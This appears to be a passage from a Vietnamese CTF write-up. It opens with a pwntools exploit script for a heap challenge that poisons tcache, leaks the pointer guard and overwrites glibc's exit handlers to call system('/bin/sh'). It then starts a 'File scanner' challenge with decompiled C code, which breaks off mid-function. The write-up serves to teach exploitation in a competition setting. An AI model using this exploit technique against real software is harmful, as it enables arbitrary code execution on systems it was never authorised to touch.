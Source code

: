 ```python
create_student(0, 0x30, b'A')
create_student(1, 0x30, b'A')
delete(1)
delete(0)
create_student(0, 0x30, p64(((heap + 0x770) >> 12) ^ (libc.address + 0x21af00))) # value in __exit_funcs plus n
create_student(2, 0x30, b'A')
create_student(3, 0x30, b'A'*0x17)
show(3)
p.recvuntil(b'\x41\x41\n')
leak = p.recvuntil(b'E')[:-1]
leak = int.from_bytes(leak, byteorder='little')
print('leak: {}'.format(hex(leak)))
pointer_guard = rightRotate(leak, 0x11) ^ (ld.address + _DL_FINI)
print('pointer guard: {}'.format(hex(pointer_guard)))
pointer_encoded = leftRotate((libc.symbols['system'] ^ pointer_guard), 0x11)
print(hex(pointer_encoded))
create_student(3, 0x30,p64(0) + p64(1) + p64(4) + p64(pointer_encoded) + p64(next(libc.search(b'/bin/sh\x00'))))

slnaf(b'your choice: ', b'4')
p.interactive()

```

## File scanner

![](https://hackmd.io/_uploads/S1iXZTW6h.png)

Chạy chương trình thì nó hỏi có phải huster không, ehhh không
Nhập vào ID rồi nó thoát

### Decompile program

Hàm `main`

```cpp
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  int v3; // eax
  int v4; // [esp-Ch] [ebp-44h]
  int v5; // [esp-Ch] [ebp-44h]
  int v6; // [esp-Ch] [ebp-44h]
  int v7; // [esp-8h] [ebp-40h]
  int v8; // [esp-4h] [ebp-3Ch]
  int v9; // [esp+0h] [ebp-38h] BYREF
  int i; // [esp+4h] [ebp-34h]
  int v11; // [esp+8h] [ebp-30h]
  char v12[16]; // [esp+Ch] [ebp-2Ch] BYREF
  char v13[16]; // [esp+1Ch] [ebp-1Ch] BYREF
  unsigned int v14; // [esp+2Ch] [ebp-Ch]

  v14 = __readgsdword(0x14u);
  init();
  v3 = time(0);
  srand(v3);
  for ( i = 0; i <= 15; ++i )
    v13[i] = generateRandomHexValue();
  memset(v12, 0, sizeof(v12));
  printf("Are you Huster? Show me your ID: ");
  custom_read(v12);
  v11 = strlen(v12, 16);
  if ( !strncmp(v12, v13, v11) )
```